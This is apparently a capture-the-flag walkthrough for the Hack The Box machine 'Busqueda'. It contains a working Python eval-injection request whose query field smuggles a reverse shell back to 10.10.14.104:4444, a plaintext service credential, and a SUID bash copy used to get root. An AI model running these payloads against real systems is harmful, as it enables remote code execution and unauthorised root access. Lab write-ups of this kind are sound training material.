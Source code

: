 ## Busqueda


port 22 80 open



in 80 we can see a flask site with werkzeug 


we can search the exact query of every engine search


```
POST /search HTTP/1.1
Host: searcher.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://searcher.htb/
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Origin: http://searcher.htb
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

engine=Google&query=everything
```

response: 

```
HTTP/1.1 200 OK
Date: Wed, 12 Apr 2023 16:50:27 GMT
Server: Werkzeug/2.1.2 Python/3.10.6
Content-Type: text/html; charset=utf-8
Vary: Accept-Encoding
Connection: close
Content-Length: 34

https://www.google.com/search?q=ol
```


the program is https://github.com/ArjunSharda/Searchor


has different params


```python
@click.argument("engine")
@click.argument("query")
def search(engine, query, open, copy):
    try:
        url = Engine[engine].search(query, copy_url=copy, open_web=open)
        click.echo(url)
        searchor.history.update(engine, query, url)
        if open:
            click.echo("opening browser...")
        if copy:
            click.echo("link copied to clipboard")
    except AttributeError:
        print("engine not recognized")



```

https://realpython.com/python-eval-function/
https://stackoverflow.com/questions/2220699/whats-the-difference-between-eval-exec-and-compile

eval read only bytecode so 

**If a code object (which contains Python bytecode) is passed to exec or eval, they behave identically, excepting for the fact that exec ignores the return value, still returning None always. So it is possible use eval to execute something that has statements, if you just compiled it into bytecode before instead of passing it as a string:**


```
POST /search HTTP/1.1
Host: searcher.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://searcher.htb/
Content-Type: application/x-www-form-urlencoded
Content-Length: 286
Origin: http://searcher.htb
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

engine=Accuweather&query=ssss'%2beval(compile('import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.10.14.104",4444))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bimport+pty%3b+pty.spawn("sh")','','exec'))%2b'
```




svc : jh1usoih2bkjaspwe92




```bash

cp /bin/bash /tmp/bash
chmod +s /tmp/bash
```


so we can do sudo python3 scripts.py full-check(crafted) and boom we copy the bash with suid permssion and with /tmp/bash -p we are root






